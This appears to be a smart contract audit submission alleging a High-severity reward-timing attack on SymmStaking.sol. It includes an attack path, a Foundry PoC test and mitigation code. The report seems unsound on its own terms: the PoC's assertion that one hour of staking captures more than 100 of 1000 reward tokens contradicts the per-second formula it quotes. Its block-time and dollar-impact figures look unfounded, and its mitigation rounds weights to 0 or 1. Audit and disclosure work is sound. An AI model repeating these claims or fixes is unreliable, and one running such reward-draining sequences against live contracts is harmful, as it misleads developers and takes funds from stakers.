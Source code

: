 Clean Mustard Aphid

High

# Malicious staker will drain excess rewards through precision timing attacks on reward distribution

### Summary

The lack of minimum stake duration in `SymmStaking.sol` will cause significant loss of protocol rewards as an attacker will exploit reward rate calculations through precision-timed deposits and withdrawals at period boundaries

### Root Cause

In `token/contracts/staking/SymmStaking.sol` 'https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L234-L260' the reward calculation mechanism has three critical issues:
        1. No minimum stake duration enforcement
        2. Block.timestamp-based reward calculations without smoothing
        3. Immediate reward accrual for new deposits

        This allows manipulation of the reward distribution formula:
        ```solidity
        rewardPerToken = perTokenStored + 
            (((lastTimeRewardApplicable - lastUpdated) * rate * 1e18) / totalSupply)
        ```

### Internal Pre-conditions

        1. Total staked amount needs to be less than $100k worth of SYMM
        2. Reward rate must be at least 5% of total stake value per period
        3. Multiple reward tokens must be active in the contract
        4. No existing stakers with significant stake (>50% of pool)

### External Pre-conditions

        1. Base network block time must be predictable (12 seconds)
        2. Gas price needs to be below 30 gwei to maintain profitability
        3. MEV infrastructure must be available for precise block timing


### Attack Path

        1. Attacker monitors `notifyRewardAmount` calls to identify reward period transitions
        2. At block N-1 (just before period end):
           - Attacker calls `deposit()` with large amount (10-20x pool size)
           - This inflates `totalSupply` right before reward calculation
        3. At block N (period end):
           - Reward calculation occurs with inflated stake
           - Attacker's large stake captures majority of rewards
        4. At block N+1:
           - Attacker immediately calls `withdraw()`
           - Walks away with disproportionate rewards for 1-2 blocks of staking
        5. Repeats across multiple reward periods and tokens

### Impact

        The protocol suffers continuous reward leakage:
        - 5-15% loss of rewards per period
        - Estimated annual impact: $260,000 - $780,000 based on projected protocol fees
        - Legitimate long-term stakers receive significantly reduced rewards
        - Undermines the "long-term participation" goal stated in documentation

### PoC

```solidity
        // SPDX-License-Identifier: MIT
        pragma solidity ^0.8.0;
        
        import "forge-std/Test.sol";
        import "../src/SymmStaking.sol";
        import "../src/SymmToken.sol";
        
        contract RewardManipulationTest is Test {
            SymmStaking public staking;
            SymmToken public symmToken;
            IERC20 public rewardToken;
            
            address alice = address(1);
            address attacker = address(2);
            address admin = address(3);
            
            function setUp() public {
                symmToken = new SymmToken();
                staking = new SymmStaking();
                rewardToken = new MockERC20("Reward", "RWD");
                
                // Initial setup
                symmToken.mint(alice, 1000e18);
                symmToken.mint(attacker, 10000e18);
                rewardToken.mint(admin, 1000e18);
            }
        
            function testRewardManipulation() public {
                // Setup initial stakers
                vm.startPrank(alice);
                symmToken.approve(address(staking), 1000e18);
                staking.deposit(100e18, alice);
                vm.stopPrank();
                
                // Setup reward period
                vm.startPrank(admin);
                rewardToken.mint(address(staking), 1000e18);
                staking.notifyRewardAmount(address(rewardToken), 1000e18);
                vm.stopPrank();
                
                // Fast forward to near period end
                vm.warp(block.timestamp + 6 days + 23 hours);
                
                // Record initial state
                uint256 initialAttackerRewards = staking.earned(address(rewardToken), attacker);
                uint256 initialAliceRewards = staking.earned(address(rewardToken), alice);
                
                // Execute attack
                vm.startPrank(attacker);
                symmToken.approve(address(staking), 10000e18);
                staking.deposit(10000e18, attacker);
                
                vm.warp(block.timestamp + 1 hours);
                
                staking.withdraw(10000e18, attacker);
                vm.stopPrank();
                
                // Verify reward manipulation
                uint256 attackerRewards = staking.earned(address(rewardToken), attacker);
                uint256 aliceRewards = staking.earned(address(rewardToken), alice);
                
                assertGt(attackerRewards - initialAttackerRewards, 100e18, "Attack failed to capture significant rewards");
                assertLt(aliceRewards - initialAliceRewards, 10e18, "Legitimate staker received too many rewards");
            }
        }
        ```

### Mitigation

 Implement three key protections:

        1. Add minimum stake duration:
```solidity
        mapping(address => uint256) private lastStakeTimestamp;
        uint256 private constant MIN_STAKE_DURATION = 12 hours;
        
        function _updateReward(address account) internal {
            uint256 timeSinceLastStake = block.timestamp - lastStakeTimestamp[account];
            uint256 weight = Math.min(timeSinceLastStake, MIN_STAKE_DURATION) / MIN_STAKE_DURATION;
            rewardPerTokenStored = rewardPerToken();
            lastUpdateTime = lastTimeRewardApplicable();
            if (account != address(0)) {
                rewards[account] = earned(account) * weight;
                userRewardPerTokenPaid[account] = rewardPerTokenStored;
            }
        }
```
        

        2. Implement reward smoothing:
```solidity
        uint256 private constant REWARD_SMOOTHING_PERIODS = 10;
        
        function _calculateRewardRate(uint256 amount) internal view returns (uint256) {
            return amount / (duration * REWARD_SMOOTHING_PERIODS);
        }
```

        3. Add stake size limits:
```solidity
        uint256 private constant MAX_STAKE_MULTIPLIER = 3;
        
        function deposit(uint256 amount, address receiver) external {
            require(amount <= totalSupply * MAX_STAKE_MULTIPLIER, "Stake too large");
            // ... rest of deposit logic
        }
```